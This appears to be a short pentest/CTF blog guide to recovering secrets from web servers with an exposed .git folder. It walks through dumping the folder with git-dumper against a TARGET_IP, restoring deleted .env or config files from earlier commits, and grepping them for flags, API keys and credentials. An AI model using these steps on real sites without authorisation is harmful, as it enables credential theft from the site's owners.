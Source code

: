 ```yaml
---
title: 'Git Secrets Hunter – Quick Guide'
author: saramazal
date: 2025-08-20
categories: ['Git']
tags: [git, git dumper, .git, repo, github, commit,secret recovery]     # TAG names should always be lowercase
img_path: /images/covers
image:
  path: /images/covers/town5.jpg
---
```


A step-by-step guide to recover sensitive information from an exposed Git repository.

## **1️⃣ Install git-dumper on Kali**

Git-dumper automates downloading an exposed `.git` folder.

```bash
# Clone git-dumper
git clone https://github.com/arthaud/git-dumper.git
cd git-dumper

# Create a Python 3 virtual environment (recommended)
python3 -m venv venv
source venv/bin/activate

# Install dependencies
pip install dulwich PySocks requests requests-pkcs12
````

> ⚠️ If pip complains about system packages, always use a virtual environment.

---

## **2️⃣ Dump the exposed Git repository**

```bash
python3 git_dumper.py http://TARGET_IP/.git/ repo
cd repo
```

* `TARGET_IP` = IP of the site with exposed `.git`.
* The repo will be saved in `repo/`.

---

## **3️⃣ Check commit history**

```bash
git log --oneline --all
```

* Look for commits that **added sensitive files** (like `.env` or config files)
* Identify commits that **removed them**.

Example:

```
9a1e71a  Add deployment script + environment config
6d48072  Remove sensitive environment file
```

---

## **4️⃣ Restore deleted files from a previous commit**

```bash
# Restore files from the commit BEFORE deletion
git checkout 9a1e71a -- .
```

* Lists all files from that snapshot:

```bash
ls -la
```

---

## **5️⃣ Search for the flag or secrets**

```bash
# Directly grep for keywords like 'flag'
grep -Ri "flag" .
```

* Or inspect specific files:

```bash
cat .env
cat config.js
```

---

## **6️⃣ Key Takeaways**

* Git keeps **full history**, even for deleted files.
* `.env` or `config` files often contain API keys, credentials, or flags.
* Always check **commits before sensitive removal** during pentests/CTFs.
* Tools like **git-dumper** or **DVCS-Pillage** speed up recon, but manual Git commands always work.

---

### **Example Flag Found**

```bash
FLAG=5xxxxxxx-xxxxxx-xxxxxx0
```

---

## **References**

* [Git-dumper GitHub](https://github.com/arthaud/git-dumper)
* [DVCS-Pillage GitHub](https://github.com/evilpacket/DVCS-Pillage)
* [Git Documentation](https://git-scm.com/doc)

```
## Great! Happy Hunting 🔎
``` Trace the packets. Follow the crumbs.  
Silence is opsec — but sharing is rebellion.```

**Mazal Tov // Stay rooted** 🕶️